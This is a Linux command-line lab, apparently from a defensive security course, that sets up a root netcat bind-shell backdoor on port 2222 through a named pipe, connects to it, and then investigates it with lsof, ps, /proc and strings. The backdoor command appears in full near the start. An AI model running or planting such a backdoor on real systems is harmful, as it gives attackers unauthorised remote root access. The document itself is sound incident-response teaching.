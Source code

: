 
# Linux CLI

In this lab we will be looking at a backdoor through the lens of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running three different Ubuntu terminals.

The first will be where we run the backdoor.

The second will be where we connect to it.

The third is where we will be running our analysis.

Let’s get started by opening a Terminal as Administrator


![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

####NOTE##### 

If you are having trouble with Windows Terminal, you can simply start each of the three shells, we use by starting them directly from the Windows Start button. 

 

Simply click the Windows Start button in the lower left of your screen and type: 

 

`Powershell` 

or 

`Ubuntu`

or 

`Command Prompt` 

 

For PowerShell and Command Prompt, please right click on them and select Run As Administrator 

###END NOTE###


On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

The password is adhd.


This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

We will next need to create a fifo backpipe:

<pre>mknod backpipe p</pre>

Next, let's start the backdoor:

`/bin/bash  0<backpipe | nc -l 2222 1>backpipe`

In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the netcat listener. 

Basically, this will create a backdoor listening on port 2222 of our linux system.

Now, let's open another Ubuntu terminal.  This will be the terminal we connect to the above created backdoor with.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Now we will need to know the IP address of our linux system:

<pre>ifconfig</pre>

![](attachments/Clipboard_2020-12-11-07-18-27.png)

Now, let's connect:

<pre> nc 172.30.249.49 2222</pre>

Remember!!!  Your IP address will be different!!!!

Now, let's type some commands and make sure it is working

<pre>ls</pre>
<pre>whoami</pre>

![](attachments/Clipboard_2020-12-11-07-19-48.png)

As you can see, we are connected to the simple Linux backdoor as root.  Also notice there was not message saying we successfully connected to the backdoor.  It just drops our cursor back to the left side of the screen.

Now, let's open yet another Ubuntu terminal and start our analysis. This means we have one where we created the backdoor, another that connected to it and this third one will be for the analysis.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt.   We want to be root because looking at network connections and process information systemwide requires root access.  Basically, it is very hard to do your job as a SOC pro without root or admin rights.

Let's start by looking at the network connections with lsof.  When we use lsof, we are looking at open files.  When we use the -i flag we are looking at the open Internet connections.  When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used. Just give us the port number.

<pre>lsof -i -P</pre>


![](attachments/Clipboard_2020-12-11-07-23-35.png)

Now let's dig into the netcat process ID.  We can do this with the lowercase p switch.  This will give us all the open files associated with the listed process ID.

<pre>lsof -p 131</pre>

![](attachments/Clipboard_2020-12-11-07-24-11.png)

Let's look at the full processes.  We can do this with the ps command. We are also adding the aux switches.  This is a for all processes,  u for sorted by user and x to include the processes using a teletype terminal.

<pre>ps aux</pre>

![](attachments/Clipboard_2020-12-11-07-24-39.png)

Let's change directories into the proc directory for that pid.  Remember, proc is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

<pre>cd /proc/[pid]</pre>

![](attachments/Clipboard_2020-12-11-07-25-14.png)

We can see a number of interesting directories here:

<pre>ls</pre>

![](attachments/Clipboard_2020-12-11-07-28-21.png)

Remember!!!  Your PID will be different!!!

We can run strings on the exe in this directory.  This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

<pre>strings ./exe</pre>

![](attachments/Clipboard_2020-12-11-07-25-54.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it directly out of memory!

![](attachments/Clipboard_2020-12-11-07-27-29.png)

















